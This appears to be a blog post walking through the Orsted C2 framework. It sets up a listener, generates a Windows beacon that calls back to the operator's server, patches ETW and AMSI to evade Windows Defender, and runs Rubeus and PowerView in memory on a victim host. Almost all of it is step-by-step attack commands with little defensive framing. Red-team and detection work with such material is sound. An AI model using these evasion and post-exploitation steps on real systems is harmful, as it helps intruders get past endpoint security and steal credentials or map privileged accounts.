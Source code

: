 ```yaml
---
title: "Using Orsted C2 to run Rubeus and PowerView"
image:
  path: cov.png
layout: "post"
media_subpath: /assets/posts/2025-09-01-orsted-dotnet-stealth/
categories: [ "Malware" ]
tags: [ "Malware", "go", "windows" ]
---
```


I will show how to use Orsted C2 to patch AMSI and ETW then run Rubeus and PowerView. I will only showcase this against basic windows defender.

## Setting Up Orsted C2

First lets setup Orsted C2. The documentation to install can be found here: [https://almounah.github.io/orsted-doc/intro/3-installation/](https://almounah.github.io/orsted-doc/intro/3-installation/).

I will clone and compile using:

```bash
./compile all
```

I will then start the `orsted-server`:

```bash
sudo ./orsted-server run
```

I will connect to the `orsted-server` using `orsted-client`:

```bash
./orsted-client
```

In the `orsted-client` I will start an HTTP listener:

```bash
orsted-client » listener start http 0.0.0.0 80
```

I will then generate a windows `orsted-beacon`:

```bash
orsted-client » generate beacon windows http 192.168.122.45:80
```

I will transfer the resulting `main_http.exe` to my victim machine and run it. This will give me a connection back to the `orsted-server`.

![](interact.png)

## Running Rubeus

### Strategy to follow

The strategy to run `Rubeus.exe` is:

1. Patch ETW
2. Start The CLR  
3. Patch AMSI in `clr.dll`
4. Load `Rubeus.exe` in memory
5. Invoke `Rubeus.exe` in memory

If you do any step before another, you will not be stealth or the process will crash.


### Attacking with orsted

- Step 1: Patch ETW

To perform the strategy with orsted you start by loading the `evasion` DLL inside your process.

```bash
[Session 1: haroun@DESKTOP-DU89UIV] » load-module evasion
```

To evade ETW you can run:
```bash
[Session 1: haroun@DESKTOP-DU89UIV] » evasion etw 1
```

- Step 2: Start the CLR

To start the CLR in your process, you start by loading the `inline-clr` DLL inside your process.

```bash
[Session 1: haroun@DESKTOP-DU89UIV] » load-module inline-clr
```

Then you simply start the CLR

```bash
[Session 1: haroun@DESKTOP-DU89UIV] » inline-clr start-clr
```

- Step 3: Patch AMSI in `clr.dll`

As `evasion` DLL is already in our process, no need to load it again.

To patch AMSI you can use

```bash
[Session 1: haroun@DESKTOP-DU89UIV] » evasion amsi 7
```

- Step 4: Load `Rubeus.exe` in memory

To load `Rubeus.exe` in memory, start by placing the `Rubeus.exe` in `./tools/windows/dotnet/Rubeus.exe` (default path for dotnet binaries)

You can then run

```bash
[Session 1: haroun@DESKTOP-DU89UIV] » inline-clr load-assembly Rubeus.exe
```

- Step 5: Invoke `Rubeus.exe`

You invoke `Rubeus.exe` with the needed arguments

```bash
[Session 1: haroun@DESKTOP-DU89UIV] » inline-clr invoke-assembly Rubeus.exe triage
```

![](rubeus.png)

## Running PowerView

### Strategy to follow

The strategy is similar to the one before:

1. Patch ETW
2. Start The CLR  
3. Patch AMSI in `AmsiOpenSession` and `AmsiScanString`
4. Load `PowerView.ps1` in memory
5. Invoke `PowerView` in memory


### Attacking with orsted

- Step 1: Patch ETW

To perform the strategy with orsted you start by loading the `evasion` DLL inside your process.

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » load-module evasion
```

To evade ETW you can run:
```bash
[Session 2: haroun@DESKTOP-DU89UIV] » evasion etw 1
```

- Step 2: Start the CLR

To start the CLR in your process, you start by loading the `powercliff` DLL inside your process.

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » load-module powercliff
```

Then you simply start the CLR

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » powercliff start-powercliff
```


- Step 3: Patch AMSI in `AmsiOpenSession` and `AmsiScanString`

As `evasion` DLL is already in our process, no need to load it again.

To patch AMSI you can use

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » evasion amsi 5
```

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » evasion amsi 6
```

- Step 4: Load `PowerView.ps1` in memory

To load `PowerView.ps1` in memory, start by placing the `PowerView.ps1` in `./tools/windows/ps1/PowerView.ps1` (default path for ps1)

You can then run

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » powercliff load PowerView.ps1
```

- Step 5: Invoke `PowerView` in memory

You invoke a function from `PowerView` with the needed argument

```bash
[Session 2: haroun@DESKTOP-DU89UIV] » powercliff exec Get-NetLocalGroupMember -GroupName Administrators
```

![](powerview.png)
